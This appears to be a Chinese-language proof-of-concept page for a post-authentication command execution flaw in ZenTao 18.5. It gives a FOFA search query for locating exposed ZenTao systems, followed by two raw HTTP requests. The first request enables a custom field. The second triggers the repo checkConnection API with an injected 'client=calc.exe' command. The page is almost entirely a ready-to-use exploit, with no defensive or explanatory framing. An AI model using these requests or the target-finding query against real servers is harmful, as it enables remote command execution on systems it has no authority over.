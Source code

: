 ## 禅道18.5存在后台命令执行漏洞

## fofa

```
app="易软天创-禅道系统"
```

## poc

```
POST /zentaopms/www/index.php?m=custom&f=ajaxSaveCustomFields&module=common§ion=features&key=apiGetModel HTTP/1.1
Host: 192.168.234.128
Content-Length: 11
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.234.128
Referer: http://192.168.234.128/zentaopms/www/index.php?m=projectstory&f=story&projectID=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh-TW;q=0.9,zh;q=0.8,en-US;q=0.7,en;q=0.6
Cookie: zentaosid=t33hnj6nnkdkjcid7rp3bdl63e;
Connection: close

fields=true
```

```
POST /zentaopms/www/index.php?m=api&f=getModel&moduleName=repo&methodName=checkConnection HTTP/1.1
Host: 192.168.234.128
accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh-TW;q=0.9,zh;q=0.8,en-US;q=0.7,en;q=0.6
Referer: http://192.168.234.128/zentaopms/www/index.php
Cookie: zentaosid=t33hnj6nnkdkjcid7rp3bdl63e;
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

client=calc.exe&SCM=Subversion
```

![image-20240615214631156](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406152146214.png)

![image-20240615214643016](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406152146078.png)

## 漏洞来源

- https://www.t00ls.com/thread-71854-1-1.html